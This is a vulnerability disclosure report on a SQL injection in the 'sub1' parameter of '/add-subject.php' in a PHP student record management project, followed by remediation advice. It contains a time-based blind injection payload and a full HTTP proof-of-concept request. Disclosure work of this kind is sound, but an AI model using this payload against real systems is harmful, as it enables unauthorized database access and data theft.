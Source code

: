 # Students Record Management Project in PHP V 3.20/add-subject.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Students Record Management Project in PHP
## Vendor Homepage

- https://phpgurukul.com/student-record-system-php/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Doracat

## Vulnerable File

- /add-subject.php

## VERSION(S)

- V3.20

## Software Link

- https://github.com/Doramer/doramer.github.io/raw/refs/heads/main/Student-Record-Management-System-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was discovered in the '/add subject. php' file of the 'Students Record Management Project in PHP' project. The reason for this issue is that attackers inject malicious code from the parameter 'sub1' and use it directly in SQL queries without the need for proper cleaning or validation. This allows attackers to forge input values, manipulate SQL queries, and insert and perform unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of the 'Students Record Management Project in PHP', I discovered a critical SQL injection vulnerability in the '/add subject. php' file. This vulnerability arises from insufficient user input validation of the 'sub1' parameter, allowing attackers to inject malicious SQL queries and insert data. Therefore, attackers can access databases, modify or delete data, and access sensitive information without authorization. Immediate remedial measures need to be taken to ensure system security and protect data integrity

# To exploit this vulnerability, login or authorization is required

# Vulnerability details and POC

## Vulnerability lonameion:

- 'sub1' parameter

## Payload:

```makefile
 Parameter: sub1 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=1' and if(substr(database(),1,1)='s', sleep(3), 0) or '2 &sub2=&sub3=&submit=Create+Course
```

## The following are screenshots of some specific information obtained through testing:

```bash
POST /add-subject.php HTTP/1.1
Host: xxxx
Content-Length: 95
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=ufpll4qvr523ln7902u2gm7q38;
Connection: close

sub1=1' and if(substr(database(),1,1)='s', sleep(10), 0) or '2 &sub2=&sub3=&submit=Create+Course
```

![image-20250520151410048](images/image-20250520151410048.png)

![image-20250520151457562](images/image-20250520151457562.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
